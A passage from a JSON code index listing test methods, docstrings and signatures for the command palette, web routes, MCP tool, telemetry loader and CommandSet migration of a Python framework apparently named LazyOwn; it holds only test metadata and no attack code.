"test_search_zero_limit_returns_empty", "signature": "def test_search_zero_limit_returns_empty(self, query)"}, {"doc": "Negative limit short-circuits to empty results.", "kind": "method", "line": 768, "name": "test_search_negative_limit_returns_empty", "signature": "def test_search_negative_limit_returns_empty(self, query)"}, {"doc": "Detail lookup with the explicit ``do_`` prefix succeeds.", "kind": "method", "line": 772, "name": "test_detail_with_prefix", "signature": "def test_detail_with_prefix(self, query, suite_config)"}, {"doc": "Detail lookup auto-prefixes when ``do_`` is absent.", "kind": "method", "line": 779, "name": "test_detail_without_prefix", "signature": "def test_detail_without_prefix(self, query, suite_config)"}, {"doc": "Unknown lookup targets yield ``None`` instead of raising.", "kind": "method", "line": 786, "name": "test_detail_unknown_returns_none", "signature": "def test_detail_unknown_returns_none(self, query)"}, {"doc": "Empty lookup target yields ``None``.", "kind": "method", "line": 790, "name": "test_detail_empty_returns_none", "signature": "def test_detail_empty_returns_none(self, query)"}, {"doc": "A renderer bound to the default config.", "kind": "method", "line": 799, "name": "renderer", "signature": "def renderer(self)"}, {"doc": "Overview output mentions every phase passed in.", "kind": "method", "line": 805, "name": "test_overview_lists_every_phase", "signature": "def test_overview_lists_every_phase(self, renderer, suite_config)"}, {"doc": "Empty input collapses to the configured header line.", "kind": "method", "line": 812, "name": "test_overview_empty_returns_only_header", "signature": "def test_overview_empty_returns_only_header(self, renderer)"}, {"doc": "Phase listing starts with the configured prefix and target.", "kind": "method", "line": 819, "name": "test_phase_listing_includes_header", "signature": "def test_phase_listing_includes_header(self, renderer, suite_config)"}, {"doc": "Empty phase listing surfaces the dedicated empty marker.", "kind": "method", "line": 830, "name": "test_phase_listing_empty_uses_empty_message", "signature": "def test_phase_listing_empty_uses_empty_message(self, renderer, suite_config)"}, {"doc": "Search output reflects the query string in the header.", "kind": "method", "line": 838, "name": "test_search_includes_query_in_header", "signature": "def test_search_includes_query_in_header(self, renderer)"}, {"doc": "Empty search surfaces the dedicated empty marker.", "kind": "method", "line": 847, "name": "test_search_empty_uses_empty_message", "signature": "def test_search_empty_uses_empty_message(self, renderer)"}, {"doc": "Detail view mentions every recorded label of the entry.", "kind": "method", "line": 855, "name": "test_detail_renders_every_label", "signature": "def test_detail_renders_every_label(self, renderer, suite_config)"}, {"doc": "``None`` entry surfaces the configured detail-missing message.", "kind": "method", "line": 871, "name": "test_detail_missing_returns_configured_message", "signature": "def test_detail_missing_returns_configured_message(self, renderer)"}, {"doc": "A completer bound to the default config.", "kind": "method", "line": 883, "name": "completer", "signature": "def completer(self)"}, {"doc": "First-positional completion lists every phase plus flags.", "kind": "method", "line": 889, "name": "test_first_position_offers_phases_and_flags", "signature": "def test_first_position_offers_phases_and_flags(self, completer, synthetic_index, suite_config)"}, {"doc": "A non-empty prefix narrows the first-positional candidates.", "kind": "method", "line": 903, "name": "test_first_position_prefix_filtering", "signature": "def test_first_position_prefix_filtering(self, completer, synthetic_index, suite_config)"}, {"doc": "After a phase token, position 2 yields phase-scoped names.", "kind": "method", "line": 913, "name": "test_second_position_after_phase_lists_phase_commands", "signature": "def test_second_position_after_phase_lists_phase_commands(self, completer, synthetic_index, suite_config)"}, {"doc": "After ``--info``, position 2 lists every canonical command.", "kind": "method", "line": 924, "name": "test_second_position_after_info_lists_all_commands", "signature": "def test_second_position_after_info_lists_all_commands(self, completer, synthetic_index)"}, {"doc": "Completion past the phase + query tokens yields nothing.", "kind": "method", "line": 934, "name": "test_third_position_returns_empty", "signature": "def test_third_position_returns_empty(self, completer, synthetic_index, suite_config)"}, {"doc": "The completer reflects only the supplied index.", "kind": "method", "line": 943, "name": "test_completer_is_data_driven", "signature": "def test_completer_is_data_driven(self, completer)"}, {"doc": "Empty input dispatches to the overview renderer.", "kind": "method", "line": 968, "name": "test_overview_when_line_is_empty", "signature": "def test_overview_when_line_is_empty(self, synthetic_index)"}, {"doc": "A single known phase token dispatches to the phase listing.", "kind": "method", "line": 975, "name": "test_phase_when_token_is_known_phase", "signature": "def test_phase_when_token_is_known_phase(self, synthetic_index, suite_config)"}, {"doc": "An unknown token dispatches to fuzzy search.", "kind": "method", "line": 986, "name": "test_search_when_token_is_unknown", "signature": "def test_search_when_token_is_unknown(self, synthetic_index, suite_config)"}, {"doc": "The ``--info`` flag dispatches to the detail renderer.", "kind": "method", "line": 996, "name": "test_detail_when_info_flag", "signature": "def test_detail_when_info_flag(self, synthetic_index, suite_config)"}, {"doc": "Caller-supplied config replaces every default surface string.", "kind": "method", "line": 1005, "name": "test_custom_config_overrides_defaults", "signature": "def test_custom_config_overrides_defaults(self, synthetic_index)"}, {"doc": "The full text of ``lazyown.py``.", "kind": "method", "line": 1018, "name": "src", "signature": "def src(self, suite_config)"}, {"doc": "The full text of the module that now defines ``do_palette``.\n\nThe monolith split moved ``do_palette`` into a phase ``CommandSet``\nwhile ``complete_palette`` stayed on ``LazyOwnShell``.", "kind": "method", "line": 1023, "name": "palette_src", "signature": "def palette_src(self, suite_config)"}, {"doc": "Every import that the wiring depends on appears in the file.", "kind": "method", "line": 1031, "name": "test_required_imports_present", "signature": "def test_required_imports_present(self, src, suite_config)"}, {"doc": "The migrated ``do_palette`` module keeps its renderer import.", "kind": "method", "line": 1036, "name": "test_migrated_imports_present", "signature": "def test_migrated_imports_present(self, palette_src, suite_config)"}, {"doc": "``complete_palette`` still belongs to ``LazyOwnShell``.", "kind": "method", "line": 1041, "name": "test_methods_defined_on_lazyown_shell", "signature": "def test_methods_defined_on_lazyown_shell(self, src, suite_config)"}, {"doc": "``do_palette`` body delegates to the loader and the renderer.", "kind": "method", "line": 1053, "name": "test_do_palette_loads_index_and_renders", "signature": "def test_do_palette_loads_index_and_renders(self, palette_src)"}, {"doc": "``do_palette`` body recovers gracefully from a missing index.", "kind": "method", "line": 1059, "name": "test_do_palette_handles_index_error", "signature": "def test_do_palette_handles_index_error(self, palette_src)"}, {"doc": "``complete_palette`` body delegates to the shared completer instance.", "kind": "method", "line": 1064, "name": "test_complete_palette_uses_completer", "signature": "def test_complete_palette_uses_completer(self, src)"}, {"doc": "``complete_palette`` body returns silently on a missing index.", "kind": "method", "line": 1069, "name": "test_complete_palette_handles_index_error", "signature": "def test_complete_palette_handles_index_error(self, src)"}, {"doc": "Empty input produces overview mode with phase counts.", "kind": "method", "line": 1078, "name": "test_overview_when_line_is_empty", "signature": "def test_overview_when_line_is_empty(self, synthetic_index, suite_config)"}, {"doc": "A known phase token routes to phase mode with the right rows.", "kind": "method", "line": 1094, "name": "test_phase_mode_returns_filtered_rows", "signature": "def test_phase_mode_returns_filtered_rows(self, synthetic_index, suite_config)"}, {"doc": "Adding a token after the phase filters by name or summary.", "kind": "method", "line": 1108, "name": "test_phase_mode_with_query_narrows_rows", "signature": "def test_phase_mode_with_query_narrows_rows(self, synthetic_index, suite_config)"}, {"doc": "The ``--search`` flag forces search mode and surfaces hits.", "kind": "method", "line": 1123, "name": "test_search_mode_returns_query_and_hits", "signature": "def test_search_mode_returns_query_and_hits(self, synthetic_index)"}, {"doc": "The ``--info`` flag returns a one-element ``results`` list.", "kind": "method", "line": 1138, "name": "test_detail_mode_returns_single_entry", "signature": "def test_detail_mode_returns_single_entry(self, synthetic_index, suite_config)"}, {"doc": "Unknown detail target yields empty results, not an exception.", "kind": "method", "line": 1154, "name": "test_detail_mode_unknown_returns_empty_results", "signature": "def test_detail_mode_unknown_returns_empty_results(self, synthetic_index)"}, {"doc": "Every documented mode round-trips through ``json.dumps``.", "kind": "method", "line": 1166, "name": "test_render_json_output_is_serialisable", "signature": "def test_render_json_output_is_serialisable(self, synthetic_index)"}, {"doc": "Direct construction of :class:`PaletteJsonResult` exposes the schema.", "kind": "method", "line": 1178, "name": "test_palette_json_result_to_dict_matches_schema", "signature": "def test_palette_json_result_to_dict_matches_schema(self, suite_config)"}, {"doc": "Every documented context key is present in the result.", "kind": "method", "line": 1195, "name": "test_returns_required_top_level_keys", "signature": "def test_returns_required_top_level_keys(self, synthetic_index, suite_config)"}, {"doc": "Each phase descriptor exposes ``id``, ``label`` and ``count``.", "kind": "method", "line": 1207, "name": "test_phase_entries_carry_required_fields", "signature": "def test_phase_entries_carry_required_fields(self, synthetic_index, suite_config)"}, {"doc": "Totals reflect the canonical (deduplicated) command list.", "kind": "method", "line": 1221, "name": "test_totals_match_canonical_command_count", "signature": "def test_totals_match_canonical_command_count(self, synthetic_index, suite_config)"}, {"doc": "Command rows are sorted alphabetically for deterministic UI.", "kind": "method", "line": 1235, "name": "test_commands_sorted_by_name", "signature": "def test_commands_sorted_by_name(self, synthetic_index)"}, {"doc": "Known phases appear in the configured kill-chain order.", "kind": "method", "line": 1246, "name": "test_phases_ordered_by_kill_chain", "signature": "def test_phases_ordered_by_kill_chain(self, synthetic_index)"}, {"doc": "Phases not in the kill-chain order land at the bottom alphabetically.", "kind": "method", "line": 1260, "name": "test_unknown_phases_appear_after_known_ones", "signature": "def test_unknown_phases_appear_after_known_ones(self, suite_config)"}, {"doc": "Search and info flags are exposed verbatim to the template.", "kind": "method", "line": 1301, "name": "test_flags_exposed_for_ui_chips", "signature": "def test_flags_exposed_for_ui_chips(self, synthetic_index)"}, {"doc": "Caller-supplied :class:`PaletteViewConfig` overrides default labels.", "kind": "method", "line": 1313, "name": "test_custom_view_config_overrides_labels", "signature": "def test_custom_view_config_overrides_labels(self, synthetic_index)"}, {"doc": "An empty index does not raise and reports zero totals.", "kind": "method", "line": 1325, "name": "test_empty_index_yields_zero_totals", "signature": "def test_empty_index_yields_zero_totals(self, suite_config)"}, {"doc": "The full text of the MCP server module.", "kind": "method", "line": 1342, "name": "src", "signature": "def src(self, suite_config)"}, {"doc": "The tool name appears in the declared ``list_tools`` block.", "kind": "method", "line": 1346, "name": "test_tool_declared_in_list_tools", "signature": "def test_tool_declared_in_list_tools(self, src, suite_config)"}, {"doc": "The input schema exposes a ``line`` string property.", "kind": "method", "line": 1350, "name": "test_input_schema_documents_line_property", "signature": "def test_input_schema_documents_line_property(self, src, suite_config)"}, {"doc": "``call_tool`` includes a branch for the palette tool.", "kind": "method", "line": 1356, "name": "test_dispatcher_branch_present", "signature": "def test_dispatcher_branch_present(self, src, suite_config)"}, {"doc": "The dispatcher imports the structured renderer entry point.", "kind": "method", "line": 1360, "name": "test_dispatcher_branch_imports_render_json", "signature": "def test_dispatcher_branch_imports_render_json(self, src, suite_config)"}, {"doc": "The dispatcher returns a structured error when the index is missing.", "kind": "method", "line": 1367, "name": "test_dispatcher_branch_handles_missing_index", "signature": "def test_dispatcher_branch_handles_missing_index(self, src, suite_config)"}, {"doc": "The dispatcher invokes :func:`render_json` to produce the payload.", "kind": "method", "line": 1374, "name": "test_dispatcher_branch_calls_render_json", "signature": "def test_dispatcher_branch_calls_render_json(self, src, suite_config)"}, {"doc": "Slice the ``types.Tool`` declaration up to the next sibling tool.\n\nThe MCP tool list is a flat list of ``types.Tool(...)`` calls; we\nscan from the marker to the next top-level ``types.Tool(`` opening\ninstead of trying to balance parens inside nested input schemas.", "kind": "method", "line": 1381, "name": "_tool_declaration_block", "signature": "def _tool_declaration_block(src, tool_name)"}, {"kind": "method", "line": 1396, "name": "_dispatcher_branch", "signature": "def _dispatcher_branch(src, tool_name)"}, {"doc": "The full text of ``lazyc2.py``.", "kind": "method", "line": 1409, "name": "src", "signature": "def src(self, suite_config)"}, {"doc": "The full text of ``templates/palette.html``.", "kind": "method", "line": 1414, "name": "template_src", "signature": "def template_src(self, suite_config)"}, {"doc": "The C2 module imports every helper the route depends on.", "kind": "method", "line": 1420, "name": "test_required_imports_present", "signature": "def test_required_imports_present(self, src, suite_config)"}, {"doc": "The route decorator is registered on the Flask app.", "kind": "method", "line": 1425, "name": "test_route_decorator_present", "signature": "def test_route_decorator_present(self, src, suite_config)"}, {"doc": "The route handler function is defined.", "kind": "method", "line": 1429, "name": "test_route_function_defined", "signature": "def test_route_function_defined(self, src, suite_config)"}, {"doc": "The handler is gated by ``@requires_auth``.", "kind": "method", "line": 1435, "name": "test_route_uses_requires_auth", "signature": "def test_route_uses_requires_auth(self, src, suite_config)"}, {"doc": "The handler delegates to the loader and the view builder.", "kind": "method", "line": 1450, "name": "test_route_loads_index_and_builds_view", "signature": "def test_route_loads_index_and_builds_view(self, src, suite_config)"}, {"doc": "The handler renders the dedicated palette template.", "kind": "method", "line": 1456, "name": "test_route_renders_palette_template", "signature": "def test_route_renders_palette_template(self, src, suite_config)"}, {"doc": "The handler returns a non-200 status when the index is missing.", "kind": "method", "line": 1461, "name": "test_route_handles_missing_index", "signature": "def test_route_handles_missing_index(self, src, suite_config)"}, {"doc": "The palette template extends the shared layout and defines the markers.", "kind": "method", "line": 1467, "name": "test_template_extends_base_layout", "signature": "def test_template_extends_base_layout(self, template_src, suite_config)"}, {"doc": "The template renders raw command data through an escape helper.\n\nThe embedded JSON is delivered with ``| safe`` (it is operator-trusted\ndata baked at render time) but every per-command field that lands in\nthe DOM goes through the JS ``escape`` helper to avoid XSS via\ndocstring contents.", "kind": "method", "line": 1472, "name": "test_template_escapes_user_facing_strings", "signature": "def test_template_escapes_user_facing_strings(self, template_src)"}, {"doc": "Reset the LRU cache so each test sees a fresh load.", "kind": "method", "line": 1526, "name": "setup_method", "signature": "def setup_method(self)"}, {"doc": "The committed graphify export resolves into a populated index.", "kind": "method", "line": 1532, "name": "test_load_graph_against_repo_artefact", "signature": "def test_load_graph_against_repo_artefact(self, suite_config)"}, {"doc": "A missing path raises :class:`GraphIndexError`.", "kind": "method", "line": 1543, "name": "test_missing_graph_raises_graph_index_error", "signature": "def test_missing_graph_raises_graph_index_error(self, tmp_path)"}, {"doc": "Invalid JSON raises :class:`GraphIndexError`.", "kind": "method", "line": 1551, "name": "test_malformed_graph_raises_graph_index_error", "signature": "def test_malformed_graph_raises_graph_index_error(self, tmp_path)"}, {"doc": ":func:`safe_load_graph` swallows the error and returns ``None``.", "kind": "method", "line": 1561, "name": "test_safe_load_graph_returns_none_when_missing", "signature": "def test_safe_load_graph_returns_none_when_missing(self, tmp_path)"}, {"doc": "``callees`` skips file-typed nodes and excluded noise labels.", "kind": "method", "line": 1568, "name": "test_callees_returns_helpers_only", "signature": "def test_callees_returns_helpers_only(self, synthetic_graph, tmp_path)"}, {"doc": "Unknown command names yield an empty list, not an exception.", "kind": "method", "line": 1582, "name": "test_callees_handles_unknown_command", "signature": "def test_callees_handles_unknown_command(self, synthetic_graph, tmp_path)"}, {"doc": "``callees`` accepts ``None`` (post-graceful-degradation) gracefully.", "kind": "method", "line": 1592, "name": "test_callees_with_none_graph_is_empty", "signature": "def test_callees_with_none_graph_is_empty(self)"}, {"doc": "Two commands sharing helpers appear as related; the third does not.", "kind": "method", "line": 1598, "name": "test_related_commands_uses_shared_helpers", "signature": "def test_related_commands_uses_shared_helpers(self, synthetic_graph, tmp_path)"}, {"doc": "``related_commands`` returns an empty list when no graph is loaded.", "kind": "method", "line": 1610, "name": "test_related_commands_with_none_graph_is_empty", "signature": "def test_related_commands_with_none_graph_is_empty(self)"}, {"doc": ":func:`enrich_detail` adds ``calls`` and ``related`` to the entry.", "kind": "method", "line": 1616, "name": "test_enrich_detail_attaches_calls_and_related", "signature": "def test_enrich_detail_attaches_calls_and_related(self, synthetic_graph, tmp_path, suite_config)"}, {"doc": "``None`` inputs short-circuit to ``None`` so the renderer can format the missing case.", "kind": "method", "line": 1636, "name": "test_enrich_detail_passes_through_none", "signature": "def test_enrich_detail_passes_through_none(self)"}, {"kind": "method", "line": 1646, "name": "_entry", "signature": "def _entry(self, suite_config)"}, {"doc": "The text detail view embeds the configured ``calls`` row.", "kind": "method", "line": 1659, "name": "test_text_detail_includes_calls", "signature": "def test_text_detail_includes_calls(self, suite_config)"}, {"doc": "The text detail view embeds the configured ``related`` row.", "kind": "method", "line": 1668, "name": "test_text_detail_includes_related", "signature": "def test_text_detail_includes_related(self, suite_config)"}, {"doc": "Neighbour lists longer than the configured cap are trimmed.", "kind": "method", "line": 1678, "name": "test_text_detail_truncates_neighbour_list", "signature": "def test_text_detail_truncates_neighbour_list(self, suite_config)"}, {"doc": "Absent / empty neighbour lists do not produce label rows.", "kind": "method", "line": 1689, "name": "test_text_detail_omits_calls_when_empty", "signature": "def test_text_detail_omits_calls_when_empty(self, suite_config)"}, {"doc": "When graph data is absent the dispatcher still degrades gracefully.", "kind": "method", "line": 1701, "name": "test_render_top_level_attaches_neighbour_lists", "signature": "def test_render_top_level_attaches_neighbour_lists(self, synthetic_index, suite_config)"}, {"doc": "``render_json`` detail-mode entries always carry the new keys.\n\nThe synthetic index has no matching graph node, so the keys may be\nempty lists; what matters is that the schema is consistent so MCP\nagents can rely on ``calls`` / ``related`` always being present.", "kind": "method", "line": 1712, "name": "test_render_json_detail_contains_neighbour_keys", "signature": "def test_render_json_detail_contains_neighbour_keys(self, synthetic_index, suite_config)"}, {"doc": "The web-view payload exposes ``calls``/``related`` for client-side rendering.", "kind": "method", "line": 1732, "name": "test_build_palette_view_attaches_neighbour_keys", "signature": "def test_build_palette_view_attaches_neighbour_keys(self, synthetic_index)"}, {"doc": "The view payload exposes the ``--next`` verb for the UI chips.", "kind": "method", "line": 1742, "name": "test_build_palette_view_exposes_next_flag", "signature": "def test_build_palette_view_exposes_next_flag(self, synthetic_index)"}, {"doc": "A parser bound to the default render config.", "kind": "method", "line": 1755, "name": "parser", "signature": "def parser(self)"}, {"doc": "The ``--next`` flag forces next mode.", "kind": "method", "line": 1761, "name": "test_next_flag_routes_to_next_mode", "signature": "def test_next_flag_routes_to_next_mode(self, parser, suite_config)"}, {"doc": "``--next`` without an argument carries a ``None`` phase.", "kind": "method", "line": 1770, "name": "test_next_flag_without_phase", "signature": "def test_next_flag_without_phase(self, parser, suite_config)"}, {"doc": "``next_phase`` resolves the phase after the supplied reference.", "kind": "method", "line": 1779, "name": "test_query_next_phase_returns_following_phase", "signature": "def test_query_next_phase_returns_following_phase(self, synthetic_index)"}, {"doc": "An unknown reference phase yields ``None``.", "kind": "method", "line": 1787, "name": "test_query_next_phase_unknown_returns_none", "signature": "def test_query_next_phase_unknown_returns_none(self, synthetic_index)"}, {"doc": "The last configured phase has no successor.", "kind": "method", "line": 1795, "name": "test_query_next_phase_at_end_returns_none", "signature": "def test_query_next_phase_at_end_returns_none(self)"}, {"doc": "The text dispatcher prints the next phase header and entries.", "kind": "method", "line": 1808, "name": "test_render_next_returns_phase_listing", "signature": "def test_render_next_returns_phase_listing(self, synthetic_index)"}, {"doc": "When no successor exists the renderer surfaces the empty marker.", "kind": "method", "line": 1817, "name": "test_render_next_empty_returns_message", "signature": "def test_render_next_empty_returns_message(self)"}, {"doc": "``render_json`` returns next mode with the resolved phase.", "kind": "method", "line": 1841, "name": "test_render_json_next_mode", "signature": "def test_render_json_next_mode(self, synthetic_index)"}, {"doc": "The first-position completion list includes ``--next``.", "kind": "method", "line": 1851, "name": "test_completer_offers_next_flag_at_first_position", "signature": "def test_completer_offers_next_flag_at_first_position(self, synthetic_index)"}, {"doc": "After ``--next`` the completer offers phase identifiers.", "kind": "method", "line": 1861, "name": "test_completer_after_next_offers_phases", "signature": "def test_completer_after_next_offers_phases(self, synthetic_index)"}, {"doc": "The full text of ``lazyc2.py``.", "kind": "method", "line": 1877, "name": "src", "signature": "def src(self, suite_config)"}, {"doc": "The API route decorator is registered on the Flask app.", "kind": "method", "line": 1881, "name": "test_route_decorator_present", "signature": "def test_route_decorator_present(self, src, suite_config)"}, {"doc": "The handler function is defined.", "kind": "method", "line": 1885, "name": "test_route_function_defined", "signature": "def test_route_function_defined(self, src, suite_config)"}, {"doc": "The handler is gated by ``@requires_auth``.", "kind": "method", "line": 1891, "name": "test_route_uses_requires_auth", "signature": "def test_route_uses_requires_auth(self, src, suite_config)"}, {"doc": "The handler delegates to the same view builder as the HTML route.", "kind": "method", "line": 1906, "name": "test_route_returns_jsonified_view", "signature": "def test_route_returns_jsonified_view(self, src, suite_config)"}, {"doc": "A missing index resolves to a JSON 503 instead of an HTML page.", "kind": "method", "line": 1913, "name": "test_route_handles_missing_index", "signature": "def test_route_handles_missing_index(self, src, suite_config)"}, {"doc": "The full text of ``templates/base.html``.", "kind": "method", "line": 1924, "name": "base_src", "signature": "def base_src(self, suite_config)"}, {"doc": "Every required overlay element marker is in the template.", "kind": "method", "line": 1930, "name": "test_overlay_markup_present", "signature": "def test_overlay_markup_present(self, base_src, suite_config)"}, {"doc": "The overlay only renders for logged-in operators.", "kind": "method", "line": 1935, "name": "test_overlay_is_authenticated_only", "signature": "def test_overlay_is_authenticated_only(self, base_src)"}, {"doc": "The client-side renderer routes user-visible fields through an escape helper.", "kind": "method", "line": 1942, "name": "test_overlay_escapes_command_strings", "signature": "def test_overlay_escapes_command_strings(self, base_src)"}, {"doc": "The overlay footer links back to the full palette view.", "kind": "method", "line": 1947, "name": "test_overlay_links_to_full_palette", "signature": "def test_overlay_links_to_full_palette(self, base_src)"}, {"doc": "The full text of the MCP server module.", "kind": "method", "line": 1956, "name": "src", "signature": "def src(self, suite_config)"}, {"doc": "The tool description advertises ``--next``.", "kind": "method", "line": 1960, "name": "test_description_mentions_next_mode", "signature": "def test_description_mentions_next_mode(self, src)"}, {"doc": "The tool description advertises the new neighbour fields.", "kind": "method", "line": 1964, "name": "test_description_mentions_calls_and_related", "signature": "def test_description_mentions_calls_and_related(self, src)"}, {"doc": "A non-existent CSV degrades to an empty index, never raises.", "kind": "method", "line": 2018, "name": "test_safe_load_returns_empty_index_when_csv_missing", "signature": "def test_safe_load_returns_empty_index_when_csv_missing(self, tmp_path)"}, {"doc": "The loader aggregates per-command run counts from the CSV.", "kind": "method", "line": 2028, "name": "test_load_telemetry_counts_invocations", "signature": "def test_load_telemetry_counts_invocations(self, synthetic_telemetry_path)"}, {"doc": "Both prefixed and non-prefixed CSV entries collapse onto ``do_<verb>``.", "kind": "method", "line": 2037, "name": "test_load_telemetry_normalises_prefix", "signature": "def test_load_telemetry_normalises_prefix(self, synthetic_telemetry_path)"}, {"doc": "Sentinel rows (``exit``, blanks) never make it into the index.", "kind": "method", "line": 2045, "name": "test_load_telemetry_skips_excluded_commands", "signature": "def test_load_telemetry_skips_excluded_commands(self, synthetic_telemetry_path)"}, {"doc": "``last_seen`` is the most recent timestamp seen for that command.", "kind": "method", "line": 2053, "name": "test_load_telemetry_records_last_seen", "signature": "def test_load_telemetry_records_last_seen(self, synthetic_telemetry_path)"}, {"doc": "Recents are deduplicated and ordered most-recent-first.", "kind": "method", "line": 2060, "name": "test_recent_order_is_most_recent_first_and_unique", "signature": "def test_recent_order_is_most_recent_first_and_unique(self, synthetic_telemetry_path)"}, {"doc": "Commands following ``do_lazynmap`` within the window are ranked.", "kind": "method", "line": 2070, "name": "test_cooccurrence_emits_top_followers", "signature": "def test_cooccurrence_emits_top_followers(self, synthetic_telemetry_path)"}, {"doc": "A pair seen only once never makes it into the result.", "kind": "method", "line": 2079, "name": "test_cooccurrence_respects_min_count", "signature": "def test_cooccurrence_respects_min_count(self, tmp_path)"}, {"doc": "``command_stats`` accepts both ``do_x`` and ``x`` forms.", "kind": "method", "line": 2092, "name": "test_command_stats_normalises_lookup_prefix", "signature": "def test_command_stats_normalises_lookup_prefix(self, synthetic_telemetry_path)"}, {"doc": "A ``None`` telemetry index degrades to empty results.", "kind": "method", "line": 2102, "name": "test_runs_after_handles_none_telemetry", "signature": "def test_runs_after_handles_none_telemetry(self)"}, {"doc": "The enrichment helper carries telemetry into a detail entry.", "kind": "method", "line": 2110, "name": "test_enrich_detail_attaches_runs_and_runs_after", "signature": "def test_enrich_detail_attaches_runs_and_runs_after(self, synthetic_telemetry_path)"}, {"doc": "``None`` input remains ``None`` so the renderer can show its message.", "kind": "method", "line": 2123, "name": "test_enrich_detail_passes_through_none", "signature": "def test_enrich_detail_passes_through_none(self)"}, {"doc": "A directory in the CSV slot raises a typed error.", "kind": "method", "line": 2129, "name": "test_load_telemetry_raises_on_unreadable_path", "signature": "def test_load_telemetry_raises_on_unreadable_path(self, tmp_path)"}, {"doc": "Run count, last seen and runs-after rows render when populated.", "kind": "method", "line": 2143, "name": "test_render_detail_shows_runs_and_runs_after", "signature": "def test_render_detail_shows_runs_and_runs_after(self)"}, {"doc": "A command with zero runs hides the telemetry rows entirely.", "kind": "method", "line": 2168, "name": "test_render_detail_skips_telemetry_rows_when_zero", "signature": "def test_render_detail_skips_telemetry_rows_when_zero(self)"}, {"doc": "The view payload exposes a ``recents`` field for the overlay.", "kind": "method", "line": 2189, "name": "test_build_palette_view_includes_recents_key", "signature": "def test_build_palette_view_includes_recents_key(self, synthetic_index)"}, {"doc": "The full text of ``lazyc2.py``.", "kind": "method", "line": 2202, "name": "src", "signature": "def src(self, suite_config)"}, {"doc": "The handler is decorated with ``@limiter.limit(...)``.", "kind": "method", "line": 2206, "name": "test_rate_limit_decorator_present", "signature": "def test_rate_limit_decorator_present(self, src, suite_config)"}, {"doc": "The rate-limit value is defined as a module-level constant.", "kind": "method", "line": 2210, "name": "test_rate_limit_constant_defined", "signature": "def test_rate_limit_constant_defined(self, src, suite_config)"}, {"doc": "The fallback default (``60 per minute``) is wired into the constant.", "kind": "method", "line": 2216, "name": "test_rate_limit_falls_back_to_default", "signature": "def test_rate_limit_falls_back_to_default(self, src, suite_config)"}, {"doc": "The full text of ``templates/base.html``.", "kind": "method", "line": 2229, "name": "base_src", "signature": "def base_src(self, suite_config)"}, {"doc": "Every required telemetry marker is in the overlay markup.", "kind": "method", "line": 2233, "name": "test_telemetry_markers_present", "signature": "def test_telemetry_markers_present(self, base_src, suite_config)"}, {"doc": "The fuzzy ranker incorporates run counts as a tiebreaker.", "kind": "method", "line": 2238, "name": "test_score_function_uses_runs_signal", "signature": "def test_score_function_uses_runs_signal(self, base_src)"}, {"doc": "The renderer emits a ``recent`` section when no query is typed.", "kind": "method", "line": 2243, "name": "test_recents_section_renders_when_input_empty", "signature": "def test_recents_section_renders_when_input_empty(self, base_src)"}, {"doc": "A double-import failure still returns the original entry untouched.", "kind": "method", "line": 2252, "name": "test_enrichment_returns_entry_when_both_modules_missing", "signature": "def test_enrichment_returns_entry_when_both_modules_missing(self, monkeypatch)"}, {"doc": "``None`` continues to mean \"command not found\" downstream.", "kind": "method", "line": 2270, "name": "test_enrichment_passes_through_none", "signature": "def test_enrichment_passes_through_none(self)"}, {"kind": "function", "line": 2260, "name": "blocking_import", "signature": "def blocking_import(name)"}]}, {"doc": "Tests for the completed migration of ``LazyOwnShell`` commands.  The migration moved ``do_*`` methods out of ``lazyown.py`` into phase- scoped :class:`cmd2.CommandSet` subclasses under ``cli/commands/``. The monolith split is complete: all migrated modules inherit from the active :class:`cli.commands._base.LazyOwnCommandSet`, originals were removed from ``LazyOwnShell``, and no set remains dormant.  These tests pin down three invariants:  1. Activation: every discovered ``CommandSet`` subclasses the active base (not the dormant :class:`cli.commands._dormancy.PendingCommandSet`), survives ``include_pending=False`` discovery, and registers on the shell. 2. Deduplication: every migrated ``do_*`` method is gone from :class:`LazyOwnShell` (no lingering duplicate) while the migrated set still exposes its ``do_*`` commands. 3. Production hygiene: migrated module bodies do not contain emoji or ``TODO``/``FIXME`` comment markers, in line with the project coding standards.", "id": "tests/test_command_set_migration.py", "kind": "module", "label": "test_command_set_migration.py", "language": "py", "sha256": "65bff109c6eea14b", "symbol_count": 42, "symbols": [{"doc": "Return ``{module_name: class_name}`` for every active ``CommandSet``.\n\nUses the same discovery path as the production registry so the\nmapping stays in sync without manual updates.", "kind": "function", "line": 38, "name": "_discover_migrated_class_names", "signature": "def _discover_migrated_class_names()"}, {"doc": "Return the set of ``cli/commands/*.py`` module names (no private files).", "kind": "function", "line": 57, "name": "_collect_migrated_modules", "signature": "def _collect_migrated_modules()"}, {"doc": "Return the AST ``ClassDef`` node named ``class_name`` in ``file_path``.\n\nArgs:\n    file_path: Path to a Python source file.\n    class_name: Identifier of the class to locate.\n\nReturns:\n    The matching :class:`ast.ClassDef` node.\n\nRaises:\n    AssertionError: When the class cannot be found.", "kind": "function", "line": 62, "name": "_parse_class", "signature": "def _parse_class(file_path, class_name)"}, {"doc": "Extract the category identifier from a ``with_category`` decorator.\n\nArgs:\n    decorator: The decorator AST node.\n\nReturns:\n    The identifier or literal string passed to ``with_category``, or\n    ``None`` when the decorator is not a ``with_category`` call.", "kind": "function", "line": 82, "name": "_category_argument", "signature": "def _category_argument(decorator)"}, {"doc": "Collect every ``do_*`` method on ``LazyOwnShell`` keyed by name.\n\nReturns:\n    Mapping from method name to its ``@with_category`` category\n    identifier, or an empty string when un-categorised.", "kind": "function", "line": 110, "name": "_collect_legacy_do_methods", "signature": "def _collect_legacy_do_methods()"}, {"doc": "Return the source path of a ``cli.commands.<module_name>`` module.", "kind": "function", "line": 134, "name": "_module_path", "signature": "def _module_path(module_name)"}, {"kind": "class", "line": 139, "name": "TestDormancyMechanism", "signature": "class TestDormancyMechanism"}, {"doc": "Pin the ``_base`` forwarding contract used by every migrated ``do_*``.\n\ncmd2 keeps the parent shell in a name-mangled private attribute and exposes\nit through the :attr:`cmd2.CommandSet._cmd` property. A regression that\nreads ``self.__dict__`` instead of that property silently turns\n``self.params`` into an empty dict and every forwarded call (such as\n``self.cmd(...)``) into ``AttributeError``.", "kind": "class", "line": 189, "name": "TestShellForwarding", "signature": "class TestShellForwarding"}, {"kind": "class", "line": 249, "name": "TestMigratedSetsStructure", "signature": "class TestMigratedSetsStructure"}, {"kind": "class", "line": 284, "name": "TestParityWithLegacyShell", "signature": "class TestParityWithLegacyShell"}, {"kind": "class", "line": 312, "name": "TestProductionHygiene", "signature": "class TestProductionHygiene"}, {"kind": "method", "line": 140, "name": "test_pending_marker_attribute", "signature": "def test_pending_marker_attribute(self)"}, {"kind": "method", "line": 145, "name": "test_is_pending_helper", "signature": 